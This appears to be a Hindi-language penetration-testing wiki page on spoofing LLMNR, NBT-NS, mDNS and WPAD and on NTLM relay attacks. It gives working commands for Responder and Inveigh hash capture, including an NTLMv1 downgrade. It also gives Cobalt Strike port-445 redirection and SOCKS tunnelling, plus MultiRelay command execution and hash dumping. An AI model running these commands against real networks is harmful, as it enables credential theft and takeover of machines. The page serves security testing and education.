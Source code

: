 # Spoofing LLMNR, NBT-NS, mDNS/DNS और WPAD और Relay Attacks

{{#include ../../banners/hacktricks-training.md}}

## Network Protocols

### Local Host Resolution Protocols

- **LLMNR, NBT-NS, और mDNS**:
- Microsoft और अन्य ऑपरेटिंग सिस्टम DNS विफल होने पर स्थानीय नाम समाधान के लिए LLMNR और NBT-NS का उपयोग करते हैं। इसी तरह, Apple और Linux सिस्टम mDNS का उपयोग करते हैं।
- ये प्रोटोकॉल UDP पर अपनी अनधिकृत, प्रसारण प्रकृति के कारण इंटरसेप्शन और स्पूफिंग के प्रति संवेदनशील हैं।
- [Responder](https://github.com/lgandx/Responder) का उपयोग इन प्रोटोकॉल को क्वेरी करने वाले होस्ट को जाली प्रतिक्रियाएँ भेजकर सेवाओं का अनुकरण करने के लिए किया जा सकता है।
- Responder का उपयोग करके सेवा अनुकरण पर अधिक जानकारी [यहाँ](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md) मिल सकती है।

### Web Proxy Auto-Discovery Protocol (WPAD)

- WPAD ब्राउज़रों को स्वचालित रूप से प्रॉक्सी सेटिंग्स खोजने की अनुमति देता है।
- खोज DHCP, DNS, या DNS विफल होने पर LLMNR और NBT-NS पर वापस जाकर की जाती है।
- Responder WPAD हमलों को स्वचालित कर सकता है, ग्राहकों को दुर्भावनापूर्ण WPAD सर्वरों की ओर निर्देशित करता है।

### Responder for Protocol Poisoning

- **Responder** एक उपकरण है जिसका उपयोग LLMNR, NBT-NS, और mDNS क्वेरीज़ को ज़हर देने के लिए किया जाता है, जो क्वेरी प्रकारों के आधार पर चयनात्मक रूप से प्रतिक्रिया करता है, मुख्य रूप से SMB सेवाओं को लक्षित करता है।
- यह Kali Linux में पूर्व-स्थापित आता है, जिसे `/etc/responder/Responder.conf` पर कॉन्फ़िगर किया जा सकता है।
- Responder स्क्रीन पर कैप्चर किए गए हैश प्रदर्शित करता है और उन्हें `/usr/share/responder/logs` निर्देशिका में सहेजता है।
- यह IPv4 और IPv6 दोनों का समर्थन करता है।
- Responder का Windows संस्करण [यहाँ](https://github.com/lgandx/Responder-Windows) उपलब्ध है।

#### Running Responder

- डिफ़ॉल्ट सेटिंग्स के साथ Responder चलाने के लिए: `responder -I <Interface>`
- अधिक आक्रामक प्रोबिंग के लिए (संभावित दुष्प्रभावों के साथ): `responder -I <Interface> -P -r -v`
- आसान क्रैकिंग के लिए NTLMv1 चुनौतियों/प्रतिक्रियाओं को कैप्चर करने की तकनीकें: `responder -I <Interface> --lm --disable-ess`
- WPAD अनुकरण को सक्रिय किया जा सकता है: `responder -I <Interface> --wpad`
- NetBIOS अनुरोधों को हमलावर के IP पर हल किया जा सकता है, और एक प्रमाणीकरण प्रॉक्सी स्थापित की जा सकती है: `responder.py -I <interface> -Pv`

### DHCP Poisoning with Responder

- DHCP प्रतिक्रियाओं को स्पूफ करना एक पीड़ित की रूटिंग जानकारी को स्थायी रूप से ज़हर दे सकता है, ARP ज़हर देने के लिए एक अधिक छिपा हुआ विकल्प प्रदान करता है।
- यह लक्षित नेटवर्क की कॉन्फ़िगरेशन के बारे में सटीक ज्ञान की आवश्यकता होती है।
- हमले को चलाना: `./Responder.py -I eth0 -Pdv`
- यह विधि NTLMv1/2 हैश को प्रभावी ढंग से कैप्चर कर सकती है, लेकिन नेटवर्क में व्यवधान से बचने के लिए सावधानीपूर्वक हैंडलिंग की आवश्यकता होती है।

### Capturing Credentials with Responder

- Responder उपरोक्त प्रोटोकॉल का उपयोग करके सेवाओं का अनुकरण करेगा, जब एक उपयोगकर्ता स्पूफ की गई सेवाओं के खिलाफ प्रमाणीकरण करने का प्रयास करता है, तो क्रेडेंशियल्स (आमतौर पर NTLMv2 Challenge/Response) कैप्चर करता है।
- NetNTLMv1 में डाउनग्रेड करने या आसान क्रेडेंशियल क्रैकिंग के लिए ESS को निष्क्रिय करने का प्रयास किया जा सकता है।

यह महत्वपूर्ण है कि इन तकनीकों का उपयोग कानूनी और नैतिक रूप से किया जाना चाहिए, उचित प्राधिकरण सुनिश्चित करना और व्यवधान या अनधिकृत पहुंच से बचना चाहिए।

## Inveigh

Inveigh एक उपकरण है जो पेनिट्रेशन टेस्टर्स और रेड टीमर्स के लिए डिज़ाइन किया गया है, जो Windows सिस्टम के लिए है। यह Responder के समान कार्यक्षमताएँ प्रदान करता है, स्पूफिंग और मैन-इन-द-मिडल हमले करता है। यह उपकरण PowerShell स्क्रिप्ट से C# बाइनरी में विकसित हुआ है, जिसमें [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) और [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) मुख्य संस्करण हैं। विस्तृत पैरामीटर और निर्देश [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) में मिल सकते हैं।

Inveigh को PowerShell के माध्यम से संचालित किया जा सकता है:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
या C# बाइनरी के रूप में निष्पादित किया गया:
```bash
Inveigh.exe
```
### NTLM Relay Attack

यह हमला SMB प्रमाणीकरण सत्रों का उपयोग करके एक लक्षित मशीन तक पहुँचने के लिए किया जाता है, यदि सफल हो तो एक सिस्टम शेल प्रदान करता है। मुख्य पूर्वापेक्षाएँ शामिल हैं:

- प्रमाणीकरण करने वाले उपयोगकर्ता को रिले किए गए होस्ट पर स्थानीय व्यवस्थापक पहुँच होनी चाहिए।
- SMB साइनिंग को अक्षम किया जाना चाहिए।

#### 445 Port Forwarding and Tunneling

उन परिदृश्यों में जहाँ सीधे नेटवर्क परिचय संभव नहीं है, पोर्ट 445 पर ट्रैफ़िक को अग्रेषित और टनल करने की आवश्यकता होती है। [**PortBender**](https://github.com/praetorian-inc/PortBender) जैसे उपकरण पोर्ट 445 के ट्रैफ़िक को दूसरे पोर्ट पर पुनर्निर्देशित करने में मदद करते हैं, जो तब आवश्यक होता है जब ड्राइवर लोड करने के लिए स्थानीय व्यवस्थापक पहुँच उपलब्ध हो।

PortBender सेटअप और संचालन Cobalt Strike में:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM रिले हमले के लिए अन्य उपकरण

- **Metasploit**: प्रॉक्सी, स्थानीय और दूरस्थ होस्ट विवरण के साथ सेटअप करें।
- **smbrelayx**: SMB सत्रों को रिले करने और कमांड निष्पादित करने या बैकडोर तैनात करने के लिए एक Python स्क्रिप्ट।
- **MultiRelay**: Responder सूट से एक उपकरण जो विशिष्ट उपयोगकर्ताओं या सभी उपयोगकर्ताओं को रिले करने, कमांड निष्पादित करने या हैश डंप करने के लिए है।

यदि आवश्यक हो, तो प्रत्येक उपकरण को SOCKS प्रॉक्सी के माध्यम से संचालित करने के लिए कॉन्फ़िगर किया जा सकता है, जिससे अप्रत्यक्ष नेटवर्क पहुंच के साथ भी हमले सक्षम होते हैं।

### MultiRelay संचालन

MultiRelay _**/usr/share/responder/tools**_ निर्देशिका से निष्पादित किया जाता है, विशिष्ट IPs या उपयोगकर्ताओं को लक्षित करता है।
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
ये उपकरण और तकनीकें विभिन्न नेटवर्क वातावरण में NTLM Relay हमलों को करने के लिए एक व्यापक सेट बनाती हैं।

### NTLM लॉगिन को मजबूर करना

Windows में आप **कुछ विशेषाधिकार प्राप्त खातों को मनमाने मशीनों पर प्रमाणीकरण करने के लिए मजबूर कर सकते हैं**। जानने के लिए निम्नलिखित पृष्ठ पढ़ें:

{{#ref}}
../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md
{{#endref}}

## संदर्भ

- [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
- [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
- [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
- [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
- [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

{{#include ../../banners/hacktricks-training.md}}
